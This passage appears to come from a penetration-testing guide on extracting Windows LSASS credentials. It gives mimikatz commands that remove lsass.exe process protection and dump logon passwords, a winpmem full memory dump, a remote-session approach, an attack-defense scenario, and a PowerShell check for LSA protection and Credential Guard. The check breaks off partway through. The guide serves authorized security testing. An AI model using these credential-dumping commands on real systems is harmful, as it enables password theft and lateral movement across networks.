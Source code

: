 #### Bypassing RunAsPPL

```cmd
# Using mimikatz (requires reboot)
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
```

#### Using Direct Physical Memory Access

```cmd
# Using winpmem to create a full memory dump
winpmem_mini_x64.exe memory.raw

# Then extract LSASS data using Rekall or Volatility
```

#### Remote Access

```powershell
# PowerShell remoting can sometimes bypass local protections
Enter-PSSession -ComputerName TARGET
# Then run credential extraction
```

### Attack-Defense Scenario

To illustrate the importance of LSASS protection, consider this example scenario:

1. **Initial Access**: Attacker gains administrator access to a workstation
2. **Credential Harvesting**: Dumps LSASS memory using rundll32.exe technique
3. **Defensive Monitoring**: Security team detects the LSASS memory access
4. **Lateral Movement**: Attacker uses harvested domain credentials to move laterally
5. **Defensive Response**: Security team isolates affected systems
6. **Remediation**: Domain-wide password reset to invalidate stolen credentials

### Best Practices for Security Testing

When performing authorized LSASS credential extraction:

1. **Document all activities**: Keep detailed records of all credential extraction
2. **Handle with care**: Treat extracted credentials as highly sensitive
3. **Clean up**: Remove dump files after analysis
4. **Report findings**: Document the ability to extract credentials in your report
5. **Recommend mitigations**: Suggest appropriate protections like Credential Guard

### LSASS Protection Verification

To verify if LSASS protection is enabled on a system:

```powershell
# Check if RunAsPPL is enabled
$lsaKey = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -ErrorAction SilentlyContinue
if ($lsaKey.RunAsPPL -eq 1) {
    Write-Host "LSA Protection is enabled" -ForegroundColor Green
} else {
    Write-Host "LSA Protection is disabled" -ForegroundColor Red
}

# Check if Credential Guard is running
$deviceGuard = Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
if ($deviceGuard.SecurityServicesRunning -contains 1) {
    Write-Host "Credential Guard is enabled" -ForegroundColor Green
} else {
```